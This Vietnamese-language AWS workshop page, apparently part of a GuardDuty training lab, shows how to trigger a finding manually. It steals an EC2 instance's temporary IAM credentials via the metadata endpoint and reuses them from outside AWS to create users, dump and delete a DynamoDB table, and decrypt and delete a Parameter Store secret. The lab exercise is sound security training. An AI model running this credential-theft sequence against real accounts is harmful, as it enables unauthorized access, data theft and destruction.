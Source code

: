 ```yaml
---
title : "Tạo các Finding"
date :  "`r Sys.Date()`" 
weight : 1
chapter : false
pre : " <b> 6.1 </b> "
---
```


**Tạo ra Finding một cách thủ công**

Các cuộc tấn công giả lập và Findings sẽ được tự động tạo ra từ CloudFormation Template, ngoài trừ một Finding. Đối với Finding này, bạn sẽ cần phải làm một số bước cụ thể như:
1. Sao chép IAM security credential tạm thời từ EC2 instance.
2. Thực hiện gọi API từ máy tính cá nhân một cách thủ công.

> Để tạo ra Finding này, chúng ta phải thực hiện gọi API đến từ bên ngoài hệ thống mạng của AWS.

**Nội dung**
- [Truy xuất IAM security credential tạm thời với Systems Manager](#truy-xuất-iam-security-credential-tạm-thời-với-systems-manager)
- [Tạo AWS CLI Profile trên máy tính cá nhân](#tạo-aws-cli-profile-trên-máy-tính-cá-nhân)
- [Thực hiện câu lệnh AWS CLI bằng IAM security credential tạm thời](#thực-hiện-câu-lệnh-aws-cli-bằng-iam-security-credential-tạm-thời)

#### Truy xuất IAM security credential tạm thời với Systems Manager

Để tiến hành giả lập cuộc tấn công cuối cùng này, bạn cần phải truy xuất thành công IAM security credential tạm thời được sinh ra bởi IAM role thuộc EC2 instance. Chúng ta có thể thử 1 trong 2 cách sau:
1. Truy cập SSH vào EC2 instance và tiến hành truy vấn dữ liệu **Metadata** của EC2 instance.
2. Sử dụng chức năng **Session Manager** của dịch vụ AWS System Manager.
   1. Truy cập vào System Manager Console ở **us-west-2**.
   2. Ở thanh điều hướng bên tay trái, chọn **Fleet Manager**, chúng ta sẽ thấy một *managed EC2 instance* với định dạng tên như sau - `GuardDuty-Example: Compromised Instance: Scenario 3` với trạng thái **SSM Agent ping status** là `Online`.

![6-system-manager-fleet-manager](/images/6-system-manager-fleet-manager.png?featherlight=false&width=90pc)

   3. Tiến hành sử dụng chức năng **Session Manager** bằng cách nhấn nút `Instance actions` và chọn `Start Session`.

![system-manager-fleet-manager-start-session](/images/6-system-manager-fleet-manager-start-session.png?featherlight=false&width=90pc)

   4. Thực hiện câu lệnh truy vấn dữ liệu **Metadata**:

   ```bash
   curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised
   ```

3. Tiến hành ghi chú một số thông tin quan trọng sau
   1. **Access Key ID**
   2. **Secret Access Key**
   3. **Session Token**

![system-manager-instance-session-start](/images/6-system-manager-instance-session-start.png?featherlight=false&width=90pc)

#### Tạo AWS CLI Profile trên máy tính cá nhân

Sau khi thành công truy xuất IAM security credential tạm thời, chúng ta sẽ tiến hành tạo một **AWS CLI Profile** trên máy tính cá nhân. Từ Terminal/CMD/PowerShell, chúng ta tiến hành thay thế các `<PLACEHOLDER>` với giá trị cụ thể đã thu thập, sau đó thực hiện nhập các lệnh sau:

```bash
aws configure set profile.badbob.region us-west-2
aws configure set profile.badbob.aws_access_key_id <ACCESS_KEY_ID>
aws configure set profile.badbob.aws_secret_access_key <SECRET_ACCESS_KEY>
aws configure set profile.badbob.aws_session_token <SESSION_TOKEN>
```

> Chúng ta có thể kiểm tra xem nếu Profile đã được tạo hay chưa bằng việc truy cập đến [nơi chứa các **AWS security credentials**](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html#cli-configure-files-where).

Chúng ta có thể sử dụng câu lệnh sau để tiến hành kiểm tra nhanh xem đã có **AWS CLI Profile** tên là `badbob` hay chưa.

```bash
aws configure --profile badbob
```

![aws-cli-configure-profile](/images/6-aws-cli-configure-profile.png?featherlight=false&width=90pc)

#### Thực hiện câu lệnh AWS CLI bằng IAM security credential tạm thời
Bằng các câu lệnh **AWS CLI** dưới đây, chúng ta tiến hành thực hiện gọi API đến những dịch vụ AWS khác nhau.

---
**IAM user có bất kỳ quyền hạn nào?**

```bash
aws iam get-user --profile badbob
aws iam create-user --user-name Chuck --profile badbob
```

---
**Liệu có quyền truy cập đến DynamoDB?**

```bash
aws dynamodb list-tables --profile badbob
aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile badbob
```

---
**Liệu có quyền truy vấn dữ liệu đến DynamoDB?**

```bash
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb put-item --table-name GuardDuty-Example-Customer-DB --item '{"name":{"S":"Joshua Tree"},"state":{"S":"Michigan"},"website":{"S":"https://www.nps.gov/yell/index.htm"}}' --profile badbob
aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile badbob
aws dynamodb list-tables --profile badbob
```

---
**Liệu có thể truy cập đến System Manager Parameter Store?**

```bash
aws ssm describe-parameters --profile badbob
aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile badbob
aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile badbob
aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile badbob
```
